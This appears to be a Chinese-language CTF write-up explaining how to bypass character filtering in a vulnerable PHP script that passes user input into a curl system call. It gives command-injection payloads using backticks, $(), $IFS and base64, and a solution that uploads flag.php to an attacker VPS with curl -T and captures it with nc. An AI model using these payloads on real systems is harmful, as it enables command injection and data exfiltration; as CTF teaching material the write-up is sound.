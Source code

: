 ```yaml
---
title: 绕过curl命令执行过滤
date: 2017-04-08 13:08:40
categories: CTF
tags:
    - curl
    - 命令执行
---
```


## 常见命令执行

```php
system("curl $cmd");
```

用上面php代码为例, 存在命令执行，由于没有回显，需要自己搭建服务器接收数据，这里就不过多叙述。常用命令执行有: `` ` ``, ` $() `, 如:

```
curl vps.com/`whoami`
curl vps.com/$(whoami)

# IFS绕过空格
curl$IFSvps.com/$(whoami)
curl${IFS}vps.com/$(whoami)

# base64 编码绕过空格或特殊字符过滤
curl vps.com/$(id|base64)
```

<!-- more -->

## CTF实例

```php
<?php

error_reporting(E_ALL || ~E_NOTICE);

function strreplace($str){
    $str = str_replace('`','',$str);
    $str = str_replace(';','',$str);
    $str = str_replace('|','',$str);
    $str = str_replace('&','',$str);
    $str = str_replace('>','',$str);
    $str = str_replace('<','',$str);
    $str = str_replace('(','',$str);
    $str = str_replace(')','',$str);
    $str = str_replace('{','',$str);
    $str = str_replace('}','',$str);
    $str = str_replace('%','',$str);
    $str = str_replace('#','',$str);
    $str = str_replace('!','',$str);
    $str = str_replace('?','',$str);
    $str = str_replace('@','',$str);
    $str = str_replace('+','',$str);
    $str = str_replace('/','',$str); //这句是为了保证服务器安全的,防止利用../ 和 绝对路径 进行任意文件读取,与次题目解答无关


    $str = str_replace(':','',$str);  //添加这一句

    return $str;
}


if($_GET['num']<>""){
    $num = $_GET['num'];
    if(strstr($num,'1')){
        die("Sorry");
    }elseif($num <> 1){
        echo "Try to num = 1";
    }

    if($num == 1 ){
        echo "Flag in http://127.0.0.1/flag.php"."</br>";
        $cmd=trim($_GET['cmd']);
        $cmd=strreplace($cmd);

        system("curl$cmd/flag.php");
    }
} else {
    echo "It Works!";
}

?>
```

### 思路

#### num参数判断

get传递的num参数需要==1，但是又经过strstr()函数，即num中不能存在1，这里利用php特性，0.99999999999999就会产生小数下标溢出为1，即可绕过第一步；

#### cmd参数过滤

`curl$cmd/flag.php`，curl紧贴cmd参数，中间没有空格

```
trim()函数过滤了cmd两端的空格，可以用 $IFS 绕过，
经过strreplace()函数，将一部分符号过滤掉了，并未过滤 $ ;
```

`%`过滤了，不能利用`%0a`换行符来绕过；`;`分号，`&`逻辑与，`|`逻辑或，都过滤掉了。

#### 读flag内容

* 利用 `file`协议

```
http://192.168.1.101/index.php?num=0.99999999999999999999&cmd=$IFSfile:///$PWD
```

file协议常见格式如下:

```
# *nix
file://localhost/etc/fstab
file:///etc/fstab

# windows
file://localhost/c|/WINDOWS/clock.avi
file:///c|/WINDOWS/clock.avi
file://localhost/c:/WINDOWS/clock.avi
# Here is the URI as understood by the Windows Shell API
file:///c:/WINDOWS/clock.avi

# network location:

file://hostname/path/to/file.txt
```

另外：`$PWD`要大写，因为在PHP中内核常量必须要求大写；php中`file协议`读取出来的文件内容会放到网页源代码中，右键查看源代码即可看到内容。

但是这种方式不适合本题, 题目过滤了`/`。

* curl -T 上传文件到主机并通过监听来获取文件内容

curl不仅仅可以下载文件，还可以上传文件，通过内置`option -T`来实现, 这就可以利用curl的这个功能来将文件PUT上传给我们的主机，由于PUT method是HTTP的，所以主机需要支持web服务，然后带上端口, 由于题目过滤了`:`，于是只能使用80端口了。

```
http://192.168.1.101/index.php?num=0.99999999999999999999&cmd=$IFS-T flag.php -a your_vps_ip
```

然后再vps上监听80端口`nc -lvv 80`，即可拿到文件内容

```
root@iZbyhbtw2xco3tZ:~# nc -lvv 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [121.194.2.43] port 80 [tcp/http] accepted (family 2, sport 40156)
PUT /flag.php HTTP/1.1
User-Agent: curl/7.19.7 (x86_64-redhat-linux-gnu) libcurl/7.19.7 NSS/3.21 Basic ECC zlib/1.2.3 libidn/1.18 libssh2/1.4.2
Host: 120.25.91.96
Accept: */*
Content-Length: 91
Expect: 100-continue

<?php

die("小样,还想偷看flag!");

$flag="flag{0fNcf32079b7L6e71021d8Qcd70e32lp}";
```

## 后记

IFS变量，IFS是internal field separator的缩写，shell的特殊环境变量。ksh根据IFS存储的值，可以是空格、tab、换行符或者其他自定义符号，来解析输入和输出的变量值
